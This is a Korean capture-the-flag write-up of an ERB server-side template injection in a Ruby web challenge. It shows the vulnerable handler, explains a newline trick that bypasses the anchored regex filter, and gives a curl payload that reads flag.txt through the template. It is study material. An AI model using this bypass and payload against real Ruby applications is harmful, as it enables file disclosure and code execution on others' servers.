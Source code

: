 
## 시나리오
 - 먼저 취약점이 터지는부분의 코드를 확인
```
<h1 class="glow"><%= @neon %></h1>
```
 - 해당 코드를 확인하면 ```erb``` 웹 템플릿 엔진을 활용한것을 확인할수있다.
 - erb에 관련하여 ssti공격이 가능하다는것을 문서를 통하여 알수있었고
<img width="1092" alt="image" src="https://github.com/ChCh0i/steel/assets/108965611/46671c4c-5792-4df1-9b6c-c396f5a0ddea">
 - 우리는 flag.txt를 불러와 read()를 하면 파일의 내용을 블랙리스트가 없단 가정하에 냐용을 출력받을수있다..
 - 2번째로는 ```neon.rb```를 확인해보았을때 neon의 인자값을 받는곳에 정규표현식을 사용하여 사용자의 입력값을 검증을 거친다는것이다.
```
post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end
```
 - 살펴보면 neon의 변수에 0~9의 숫자와 a~z까지의 문자만 대소문자 구분없이 입력받을수있다. 다른 특수문자가 들어가게된다면 정규표현식을 거칠수없어 neon의 변수는 ```Malicious Input Detected``` 해당 문자열들로 초기화된다.
 - 여기서 ```https://rubular.com/``` 라는 루비 정규표현식 매치 사이트를 이용하여 해당 언어의 정규표현식 검증을 우회할방법을 탐색하다가 찾은것이 아래의 내용이다
<img width="1470" alt="image" src="https://github.com/ChCh0i/steel/assets/108965611/6f04b26a-210e-4d6a-9e70-5ecb1634a75a">
 - 해당 내용을보면 erb 템플릿을 사용하여 정규표현식으로 필터링을 거칠때 한줄만 받는것같았다. ```enter```를 통하여 다음줄에 입력값을 넣게되면 정규표현식을 bypass할수있다.

## payload
```
curl -d 'neon=aaaa%0A%3C%25%3D%20File.open(%27flag.txt%27).read%20%25%3E' [ip:port]
```
<img width="834" alt="image" src="https://github.com/ChCh0i/steel/assets/108965611/b6f7f6c1-6c33-4807-b744-b34c19a3ae64">
